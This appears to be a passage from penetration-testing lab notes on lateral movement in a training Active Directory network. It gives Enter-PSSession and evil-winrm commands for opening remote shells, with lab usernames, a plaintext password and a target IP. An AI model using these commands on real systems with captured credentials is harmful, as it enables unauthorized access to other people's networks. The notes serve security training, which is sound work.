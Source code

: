 Let's proceed. After enumerating the network and potentially elevating your privileges, the next step is to use that access to move around the network and exploit services.

-----

-----

## Privileged Access

This phase is about **lateral movement**. You've identified that a user you control has administrative rights on other machines, or is a sysadmin on a database server. Now, you will use those privileges to gain shells, access sensitive data, and further your foothold in the network. 🏃‍♂️

### Gaining Remote Shells

The most common way to move laterally is by using your credentials to get a remote command shell on another machine.

#### `Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred`

  * **What it does:** This PowerShell cmdlet establishes a fully interactive remote session using PowerShell Remoting (WinRM). It's the native, most powerful way to remotely manage a Windows machine.
  * **When to use it:** When you're on a Windows machine and have credentials for a user who is a member of the "Remote Management Users" or the local "Administrators" group on the target server.
  * **Example Command (Full Workflow):**
    ```powershell
    # First, create a secure credential object for the user 'forend'
    $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)

    # Now, use that credential object to start a remote session
    Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
    ```

#### `evil-winrm -i 10.129.201.234 -u forend -p 'Klmcargo2'`

  * **What it does:** A popular Ruby-based tool that gives you a PowerShell Remoting (WinRM) shell from a **Linux** attacker machine. It's the go-to alternative to `Enter-PSSession` for non-Windows users.
  * **When to use it:** This is your primary tool for WinRM-based lateral movement from Kali or another Linux attack box.
  * **Example Command:**
    ```shell
    evil-winrm -i 10.129.201.234 -u forend -p 'Klmcargo2'
    ```
  * **Options:**
      * `-i 10.129.201.234`: The target **I**P address.
      * `-u forend`: The **u**sername.
      * `-p 'Klmcargo2'`: The **p**assword.
